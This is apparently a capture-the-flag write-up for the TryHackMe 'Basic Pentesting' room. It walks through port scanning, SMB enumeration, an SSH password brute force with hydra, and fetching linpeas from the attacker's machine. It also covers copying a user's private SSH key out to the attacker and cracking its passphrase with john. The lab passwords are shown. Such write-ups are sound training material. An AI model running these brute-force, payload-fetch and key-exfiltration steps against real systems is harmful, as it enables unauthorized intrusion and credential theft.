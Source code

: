 # Basic Pentesting

**Room Link:** [https://tryhackme.com/room/basicpentestingjt](https://tryhackme.com/room/basicpentestingjt)



## Scanning

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (6) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (6).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>



### HTTP port 80

```
dirb http://$VICTIM:80 /usr/share/wordlists/dirb/big.txt
```

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

## SMB port 139

**Kali**

```
nmap $VICTIM --script=smb-enum*
```

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
smbclient -L //$VICTIM/ -U anonymous
```

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

We found a file that has two possible usernames. In the note above it mentioned someone with J in their name has a weak password.

**Kali**

```
smbclient \\\\$VICTIM\\Anonymous -U anonymous
prompt
mget *
exit
cat staff.txt
```

<figure><img src="../../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

### SSH port 22

**Kali**

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://$VICTIM
```

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh jan@$VICTIM
Password: armando
```



### LinPeas

**Kali**

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
wget http://$KALI:81/linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
```



<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>



**Victim**

```
ls -lah /home/kay/.ssh/
```

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
scp id_rsa root@$KALI:/root/loot
```

It is password protected so we need to try to get the password from john

**Kali**

<pre><code>chmod 400 id_rsa 
<strong>ssh -i id_rsa kay@$VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
/opt/john/ssh2john.py id_rsa > pass_hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt pass_hash.txt
```

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh -i id_rsa kay@$VICTIM
Password: beeswax
```

<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cat pass.bak 
```

<figure><img src="../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>
